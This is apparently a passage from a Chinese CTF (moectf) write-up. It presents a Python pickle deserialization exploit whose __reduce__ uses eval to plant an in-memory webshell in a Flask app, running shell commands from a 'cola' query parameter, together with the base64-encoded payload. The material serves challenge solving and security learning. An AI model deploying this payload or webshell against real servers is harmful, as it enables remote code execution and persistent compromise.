 ![27](/medias/moectf/27.png)

考虑到题目环境没有导入os库，使用eval函数动态导入一下。因为题目不能出网，又没有回显，翻了很多文章，找到`gxngxngxn师傅`一篇关于注册动态路由、内存马的文章[新版FLASK下python内存马的研究](https://www.cnblogs.com/gxngxngxn/p/18181936)

exp

```python
import pickle
import base64
import uuid


class A():
    def __reduce__(self):
        # 生成内存马，get参数cola
        return (eval, (
        "__import__(\"sys\").modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda :__import__('os').popen(request.args.get('cola')).read())",))

pet = A()
serialized_pet = pickle.dumps(pet)
print(serialized_pet)
# gASVwwAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIynX19pbXBvcnRfXygic3lzIikubW9kdWxlc1snX19tYWluX18nXS5fX2RpY3RfX1snYXBwJ10uYmVmb3JlX3JlcXVlc3RfZnVuY3Muc2V0ZGVmYXVsdChOb25lLCBbXSkuYXBwZW5kKGxhbWJkYSA6X19pbXBvcnRfXygnb3MnKS5wb3BlbihyZXF1ZXN0LmFyZ3MuZ2V0KCdjb2xhJykpLnJlYWQoKSmUhZRSlC4=
print(base64.b64encode(serialized_pet))
``` 

